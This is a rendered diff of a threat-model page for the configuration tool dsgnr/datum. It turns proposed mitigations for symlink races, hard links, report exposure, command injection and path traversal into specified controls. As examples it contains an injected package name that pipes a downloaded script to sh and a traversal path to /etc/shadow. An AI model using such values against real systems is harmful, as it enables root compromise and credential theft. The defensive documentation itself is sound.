

Before and after one commit to dsgnr/datum, a Markdown page: docs/security/threat-model.md, the part around one of its changes. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/docs/security/threat-model.md
+++ b/docs/security/threat-model.md
@@ -84,40 +87,39 @@ The directory does not have to be world-writable for this to matter. Any path un
 owned by a service account, which is common under `/var/lib` and `/srv`, is reachable by whoever
 controls that account.
 
-!!! note "Proposed behaviour"
-
-    A `File` provider opens the final path component with `O_NOFOLLOW`, creates its temporary
-    file in the target directory with `O_CREAT` and `O_EXCL`, sets ownership and mode on the
-    file descriptor rather than on the path, and renames into place. Resolving the parent
-    directory by walking it component by component and holding a directory descriptor, rather
-    than re-resolving a string at each step, closes the case where a directory is swapped
-    during the walk.
+The control is specified under [resolving a managed
+path](provider-safety.md#resolving-a-managed-path) and [writing a
+file](provider-safety.md#writing-a-file). The final component is opened with `O_NOFOLLOW`, the
+temporary file is created in the target directory with `O_EXCL`, and ownership and mode are set
+on the descriptor before any content is written.
 
 **Substitution between observation and apply.** Observation reads a path and the planner decides
 an update is needed. The path is replaced before the reconciler writes.
 
-Verification detects this after the fact, because the affected resource is read again and will
-not match. Detection is weaker than prevention, and saying so is more useful than implying the
-race is closed. Operating on a directory descriptor captured during observation rather than on a
-path string narrows the window considerably.
+The control is to resolve the path once per pass and hold the parent directory as a file descriptor,
+then confirm at apply time that the descriptor still refers to the device and inode recorded during
+observation. A descriptor cannot be redirected the way a re-resolved path string can, so this
+prevents the substitution rather than detecting it afterwards.
+
+Verification still catches anything that slips through, because the affected resource is read
+again and will not match.
 
 **Hard links to files the attacker cannot read.** An unprivileged user creates a hard link, in a
 directory they control, to a file they have no access to. A `File` or `Directory` resource that
 then changes ownership or mode on that path grants them access to the original.
 
-!!! note "Proposed behaviour"
-
-    Refuse to change ownership or mode on a path whose link count is greater than one unless the
-    resource is also managing its content, and report it rather than proceeding.
+The control is to refuse a metadata-only change on a path whose link count is greater than one, and
+to report the refusal instead of proceeding, as specified under [hard
+links](provider-safety.md#hard-links). Managing the file's content makes the case safe, because a
+rename breaks the link instead of following it.
 
 **Reading reports and plans.** A plan can contain file content, and a report written
 world-readable hands it to any local user.
 
-!!! note "Proposed behaviour"
-
-    Reports are owned by root with mode `0600`, and content differences are recorded as digests
-    by default rather than as text. Rendering readable content is something a command does on
-    request, not something written to disk automatically.
+Reports live under the agent's state directory at mode `0600` inside a `0700` directory, both
+root-owned, and content is recorded as a digest, never as text. A file can additionally be marked
+`sensitive` so its content is never rendered at all. Both are specified under [reports and content
+disclosure](provider-safety.md#reports-and-content-disclosure).
 
 ## An attacker who controls resource field values
 
@@ -127,31 +129,25 @@ implementation rules, not process.
 **Command injection through a field.** A package name of `nginx; curl http://host/x | sh` reaches
 a provider. If the provider builds a shell string, that runs as root.
 
-!!! note "Proposed behaviour"
-
-    Providers invoke an argument vector directly and never construct a shell command line, so
-    field values cannot be interpreted as syntax. Nothing above the provider boundary passes
-    user-controlled data through a shell either, because there is no shell there at all.
+The control is the [no shell rule](provider-safety.md#no-shell). Providers invoke an
+argument vector directly, so a field value is one argument and cannot be interpreted as syntax.
+Nothing above the provider boundary executes anything at all.
 
 **Field values that are syntactically valid and semantically wrong.** A package name containing a
 path separator, a unit name containing a slash, or a sysctl key containing `..` can reach tooling
 that interprets them.
 
-!!! note "Proposed behaviour"
-
-    Each resource type validates the syntax of its identifying fields before a provider sees
-    them. Paths must be absolute, package and unit and account names must match a restrictive
-    pattern, and a value failing validation is a manifest error rather than a provider failure.
+The control is [validation when the manifest
+loads](provider-safety.md#field-validation-happens-when-the-manifest-loads), which rejects
+dangerous character classes universally and leaves distribution-specific name rules to
+providers. A failing value is a manifest error raised before the host is read.
 
 **Path traversal through a content source.** A `File.desired.source` of `../../../../etc/shadow`
 would read outside the repository and write its contents to a host.
 
-!!! note "Proposed behaviour"
-
-    A source path resolves relative to its layer directory and the result must remain inside the
-    fleet root, with symbolic links inside the repository not followed outside it. This matters
-    most where a repository has path-based ownership and a contributor can write one subdirectory
-    without being trusted with the rest.
+The control is [source confinement](provider-safety.md#confining-content-sources). A source path
+must be relative, resolves against its layer directory, and the result has to remain inside the
+fleet root with symbolic links resolved before that check and not after.
 
 ## An attacker on the network
 
```
Also changed, not shown: other parts of docs/security/threat-model.md (+18 -15 lines), docs/development/open-questions.md (+21 -29 lines), docs/security/handshake.md (+2 -1 lines).
